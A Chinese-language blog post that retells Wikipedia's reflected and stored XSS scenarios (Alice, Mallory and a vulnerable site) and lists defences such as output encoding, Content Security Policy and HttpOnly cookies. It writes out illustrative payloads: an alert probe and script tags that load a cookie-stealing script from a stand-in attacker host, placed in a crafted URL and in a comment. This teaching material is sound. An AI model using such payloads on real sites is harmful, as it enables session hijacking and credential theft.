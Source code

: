 ```yaml
---
layout: post
---
```


wiki里讲了两个xss攻击的例子. 非持续性xss(Non-persistent)，也称为Reflected xss.(来自陌生人的) 与 持续性(Persistent)攻击。

## Non-persistent

Alice 经常去一个Blob的网站，且Blob的网站允许Alice使用username/password登录和存储一些敏感信息，例如账单信息
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://blobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://blobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


## Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

让其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


其实xss的种类有很多种，其中原理是将恶意脚本注入页面内，上面的xss防范方法对于很多情况下都适用。
